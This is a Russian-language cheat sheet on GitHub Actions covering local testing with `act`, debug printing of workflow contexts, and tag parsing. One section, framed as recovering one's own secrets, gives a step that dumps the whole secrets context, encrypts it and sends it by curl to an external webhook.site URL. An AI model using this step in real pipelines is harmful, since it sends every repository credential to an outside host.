# Шпаргалки и ништяки

## Локальное тестирование workflow

Используем утилиту `act`

Лучше всего работать через VSCode с плагином `Remote SSH`. `CMD + J` открывает терминал. Команда `code $path` открывает папку или файл прямо в редакторе.

```bash
# устанавливаем act (wget ссылку заменить на свежую из релизов)
mkdir -p tmp_playground/act && cd tmp_playground/act
wget https://github.com/nektos/act/releases/download/v0.2.65/act_Linux_x86_64.tar.gz
tar fxv act_Linux_x86_64.tar.gz
sudo install act /usr/bin/act
cd .. && rm -r act

# скачиваем любой реп
git clone git@github.com:user/repo.git && cd repo
touch .secrets
code .

# ... редачим .secrets ...
# можно выполнять без аргументов. Ниже моя попытка ускорения работы, но не уверен, что работает
# если используется actions upload-artifact/download-artifact, то еще укажите --artifact-server-path ../artifacts
act --insecure-secrets --pull false --use-new-action-cache --action-offline-mode --action-cache-path=/dev/shm/act-cache
# -e event.json позволяет менять данные события, например выполнять словно пушнут тег
# Пример файла: {"ref": "refs/tags/this-is-a-tag"}
```

## Дебаг принт всего контекста

```yaml
steps:
  - run: echo github context '${{ toJson(github) }}'
  - run: echo env context '${{ toJson(env) }}'
  - run: echo secrets context '${{ toJson(secrets) }}' # актуально для act (утилита) с параметром --insecure-secrets
  - run: echo job context '${{ toJson(job) }}'
  - run: echo steps context '${{ toJson(steps) }}'
  - run: echo matrix context '${{ toJson(matrix) }}' # может отсутствовать
  - run: echo strategy context '${{ toJson(strategy) }}' # может отсутствовать
  - run: echo runner context '${{ toJson(runner) }}'
```

## Получение секретов

В инете тупые решения, я придумал свое.

Вебхук получаем на https://webhook.site. Отправляем специально в зашифрованном виде, вдруг они подглядывают.

Можно еще в телегу отправлять через API, но я не додумался в тот момент. Напишите мне, если сделаете пуш в телегу.

В коде не забудьте поменть ссылку на ваш полученный вебхук

```yaml
steps:
  - run: |
      STRING_TO_ENCRYPT='${{ toJson(secrets) }}'
      ENCRYPTION_KEY="SomeSecret"
      ENCRYPTED_STRING=$(echo -n "$STRING_TO_ENCRYPT" | openssl enc -aes-256-cbc -a -salt -pass pass:"$ENCRYPTION_KEY")
      echo "🔒 Encrypted string: $ENCRYPTED_STRING"

      DECRYPTED_STRING=$(echo "$ENCRYPTED_STRING" | openssl enc -aes-256-cbc -a -d -salt -pass pass:"$ENCRYPTION_KEY")
      echo "🔓 Decrypted string: $DECRYPTED_STRING"

      curl -X POST -d "encrypted_string=$ENCRYPTED_STRING" https://webhook.site/94935b01-ad6f-40c0-968f-ec7bd37bfdf3
```

Зашифрованное сообщение сохраняем в файл `encrypted.txt`, затем вводим в терминал:

```bash
openssl enc -aes-256-cbc -d -a -salt -pass pass:SomeSecret -in encrypted.txt
```

## Получение названия тега из `github.ref` (`GITHUB_REF`)

```yaml
steps:
  - name: Получение названия тега
    if: startsWith(github.ref, 'refs/tags/')
    run: echo "Tag ${GITHUB_REF#refs/tags/}" # выведет v1.0.0 для refs/tags/v1.0.0
  - name: Использование тега в других шагах
    run: echo "TAG_NAME=${GITHUB_REF#refs/tags/}" >> $GITHUB_ENV
  - run: echo "Использование тега $TAG_NAME"
```

## Прочие ресурсы

- [Шпаргалка по `github.*` контексту](https://medium.com/@s.atmaramani/github-actions-github-object-cheat-sheet-b0ca5917b175)
- [Куча интересных заметок на гисте](https://gist.github.com/br3ndonland/f9c753eb27381f97336aa21b8d932be6)
